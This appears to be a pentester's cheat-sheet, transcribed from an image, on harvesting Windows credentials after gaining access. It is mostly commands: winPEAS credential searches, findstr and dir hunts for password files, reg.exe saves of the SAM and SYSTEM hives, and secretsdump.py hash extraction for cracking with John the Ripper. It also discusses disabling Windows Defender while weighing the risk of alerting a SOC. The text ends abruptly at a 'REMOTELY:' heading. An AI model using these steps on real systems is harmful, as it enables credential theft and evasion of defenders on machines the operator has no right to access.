 Below winpeas flag may find possible locations for credentials leakage

> .\winpeas.exe quiet cmd searchfast filesinfo

This command will find for files having pass in its name or ending with .config extension

> dir /s *pass* == *.config

This command search files contents for word password and specified file extension
Instead of running this in system root directory , run this command in users home dir or weird 
directories where you think passswords are possible


> findstr /si password *.xml *.ini *.txt

#### SAM passwords

MImikatz can be also used but that will be flagged by windows defender
We can also disable windows defender as we would be admin if we stand at hashdump point  but disabling of defenses may alert SOC analyts etc\


THis command will save a backup of SAM file

> reg.exe save HKLM\SAM sam.bak

We also need system key which can be fetched by

> reg.exe save HKLM\SYSTEM system.bak

Now transfer these files back to local machine and use impacket or any tool to dump hashes


Possible SAM locations

> .\winpeas.exe quiet cmd searchfast filesinfo

SAM is a local database in windows which store user passwords hashes. It requires a key which is stored in a file named 
SYSTEM .If we have both we can extract the hashes on our machine and crack using john the ripper

SAM files are located in c:\windows\system32\config

Backups maybe in c:\windows\system32\config\REgback ,   c:\windows\repair






 We copy the sam and system files on our machine and then use impacket's secretdump.py to dump the hashes



we need a python module

pip3 install pycrypto

Now just use the secretdump.py as

> python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam samfile -system systemfile LOCAL


REMOTELY:
